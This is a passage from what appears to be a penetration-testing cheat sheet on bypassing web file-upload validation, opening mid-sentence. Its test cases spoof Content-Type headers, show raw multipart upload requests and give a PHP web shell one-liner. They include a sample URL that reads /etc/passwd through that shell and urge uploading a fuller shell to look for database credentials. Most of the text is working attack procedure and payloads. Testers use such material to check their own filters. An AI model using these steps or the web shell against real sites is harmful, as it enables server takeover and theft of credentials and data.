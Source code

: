 ```markdown
   check so try other bypass.
```

## Test Case - 3: Content-type validation

```markdown
1. Find the upload request and send it to the repeater
2. Upload file.php and change the Content-type: application/x-php or Content-Type : application/octet-stream to Content-type: image/png or Content-type: image/gif or Content-type: image/jpg

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

3. If successful then exploit further, or there might be other type of validation or
   check so try other bypass.
```

## Test Case - 4: Content-Length validation

```markdown
1. Find the upload request and send it to the repeater
2. Try all three above bypass first, if they doesn't works then see if file size is been
   checked. Try all four of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

3. Try small file payload like

<?=`$_GET[x]`?>
<?=‘ls’;   Note : <? work for “short_open_tag=On” in php.ini ( Default=On )

4. Finally the request should look like this. if this worked then try to access this file
	 For Example: http://example.com/compromised_file.php?x=cat%20%2Fetc%2Fpasswd 

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

<?=`$_GET[x]`?>

5. Dont stop here, upload better shell and try to see if you can find something more
   critical like DB\_.
```
